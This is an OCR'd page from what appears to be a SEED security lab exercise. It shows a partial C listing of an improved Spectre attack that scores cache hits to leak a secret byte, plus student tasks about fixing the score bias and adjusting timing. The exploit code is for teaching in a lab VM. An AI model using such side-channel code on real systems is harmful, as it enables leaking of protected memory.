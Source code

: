 Listing 5:SpectreAttackImproved.c
static int scores[256];

void reloadSideChannelImproved()
{
......
for (i = 0; i < 256; i++) {
......
if (time2 <= CACHE_HIT_THRESHOLD)


scores[i]++; /*if cache hit, add 1 for this value */
}
}

void spectreAttack(size_t index_beyond)
{
... omitted: same as that in SpectreAttack.c ...
}

int main() {
int i;
uint8_t s;
size_t index_beyond = (size_t)(secret - (char*)buffer);

```
flushSideChannel();
for(i=0;i<256; i++) scores[i]=0;
```
```
for (i = 0; i < 1000; i++) {
printf("*****\n"); ¿
spectreAttack(index_beyond);
usleep(10); ¡
reloadSideChannelImproved();
}
```
```
int max = 0;
for (i = 0; i < 256; i++){
if(scores[max] < scores[i])
max = i;
}
```
printf("Reading secret value at index %ld\n", index_beyond);
printf("The secret value is %d(%c)\n", max, max);
printf("The number of hits is %d\n", scores[max]);
return (0);
}

Your tasks. Please compile and runSpectreAttackImproved.c, and do the following tasks:

- You may observe that when running the code above, the one with the highest score is very likely to be
    scores[0]. Please figure out why, and fix the code above, so the actual secret value (which is not
    zero) will be printed out.
- Line¿seems useless, but from our experience on SEED Ubuntu 20.04, without this line, the attack
    will not work. On the SEED Ubuntu 16.04 VM, there is no need for this line. We have not figured out
    the exact reason yet, so if you can, your instructor will likely give you bonus points. Please run the
    program with and without this line, and describe your observations.
- Line¡causes the program to sleep for 10 microseconds. How long the program sleeps does affect
    the success rate of the attack. Please try several other values, and describe your observations.
